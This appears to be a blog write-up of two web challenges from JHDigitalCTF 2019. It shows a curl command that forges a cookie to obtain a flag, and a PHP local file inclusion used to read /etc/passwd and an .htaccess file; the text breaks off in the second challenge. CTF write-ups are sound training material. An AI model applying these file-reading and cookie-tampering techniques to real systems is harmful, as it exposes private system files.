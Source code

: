 ```yaml
---
slug: writeup-jhdigital-ctf-web
title: Writeup JHDigitalCTF (John Hammond Digital CTF) 2019 Kategori [WEB]
date: 2019-11-10
year: 2019
author: Bardizba
keywords: [WRITE-UP JHDigitalCTF 2019 Forensics]
description: WRITE-UP JHDigitalCTF 2019 Forensics
excerpt: Writeup JHDigitalCTF (John Hammond Digital CTF) 2019 Kategori [MISC]
tags : ["ctf","jhdctf","web_ctf"]
---
```


## The Bomb
```
The Bomb
60
Oh no! A bomb is going to go off in this house, only you can stop it!

Connect here: http://jh2i.com:50036.
```

just change the timestamp in detnate_time cookie.using curl :
```bash
curl http://jh2i.com:50036/defuse.php --cookie "detonate_time=1573355244" | grep JHDCTF
```

    Flag = JHDCTF{cookies_can_save_lives}

## Hot Access

```bash
70
Access to all the latest modules, hot off the press! What can you access?

Connect here: http://jh2i.com:50016
```

its a PHP LFI. we can check by setting the m parameter to /etc/passwd.

first, check for .htaccess file by chaning ?m parameter to __.htaccess__
and the content was :
```bash
 <Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all

 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>

	AllowOverride All

 </Directory>%
```
